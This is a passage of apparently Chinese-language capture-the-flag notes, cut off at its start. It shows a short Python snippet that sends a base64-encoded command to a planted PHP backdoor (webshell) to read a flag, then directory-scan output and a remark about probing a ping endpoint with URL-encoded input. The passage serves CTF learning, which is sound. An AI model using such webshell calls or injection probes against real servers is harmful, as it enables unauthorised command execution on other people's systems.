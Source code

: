 			  ```
	- webshell利用
		- ```python
		  passwd = "4h{galf"
		  r = requests.get(f"{url}backdoor_a5f9d3.php", params = {
		      passwd: enc_dec.base64_encode("12345{}67890".format("/readflag give me the flag"))
		  })
		  print(r.text)
		  ```
- # 施工中
	- 仔细ping
		- ```
		  [10:08:27] 200 -    0B  - /flag.php
		  [10:08:31] 302 -  120B  - /index.php  ->  /?ip=127.0.0.1
		  [10:08:32] 302 -  120B  - /index.php/login/  ->  /?ip=127.0.0.1
		  
		  ```
		- 观察到urlencode之后仍然可以正常识别